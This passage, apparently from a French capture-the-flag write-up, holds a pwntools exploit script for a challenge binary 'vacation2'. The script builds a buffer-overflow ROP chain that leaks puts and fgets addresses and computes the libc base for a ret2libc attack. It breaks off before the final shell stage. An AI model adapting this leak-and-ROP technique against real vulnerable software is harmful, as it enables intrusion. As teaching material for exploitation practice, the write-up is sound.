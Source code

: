 Voici le script final :

```python
from pwn import *

context.log_level = 'critical'

elf  = ELF('./vacation2')
rop  = ROP(elf)
libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')

if(not args.REMOTE):
	libc = ELF('libc6_2.33.so')

def Get_proc():
	if(args.REMOTE):
		proc = remote('tjc.tf',31705)
	else:
		proc = process('./vacation2')
	proc.recvuntil(b'Where am I going today?\n')
	return proc

def Leak_function(name,proc):
	payload = 24*b'A' + p64(pop_rdi) + p64(elf.got[name]) + p64(libc_puts_plt)+ p64(ret_main_addr)
	proc.sendline(payload)
	Leaked	= proc.recvline()[::-1].strip().hex()
	proc.recvuntil(b'Where am I going today?\n')
	return Leaked

## Adress
ret_main_addr	= elf.symbols['vacation']
libc_puts_plt	= elf.plt['puts']
libc_fgets		= elf.symbols['fgets']
libc_setbuf		= elf.symbols['setbuf']

pop_rdi = 0x0000000000401243
ret 	= 0x000000000040101a

print('\n    Address:')
print('[+] Ret2start   : %s'%hex(ret_main_addr))
print('[+] Puts        : %s'%hex(libc_puts_plt))
print('[+] Fgets       : %s'%hex(libc_fgets))
print('[+] Setbuf      : %s'%hex(libc_setbuf))
print('[+] Pop_rdi     : %s'%hex(pop_rdi))
print('[+] Ret         : %s\n'%hex(ret))

proc = Get_proc()

Leaked_puts	 = Leak_function("puts",proc)
Leaked_fgets = Leak_function("fgets",proc)

print('    Leaked with Rop:')
print('[+] Puts  : %s'%Leaked_puts)
print('[+] Fgets : %s'%Leaked_fgets)



## Relocate libc
libc.address = int('0x'+Leaked_puts,16) - libc.symbols['puts']

if(str(hex(libc.address))[-3:] != '000'):
	print('[-] Invalid Libc: %s'%hex(libc.address))

## New Adress
```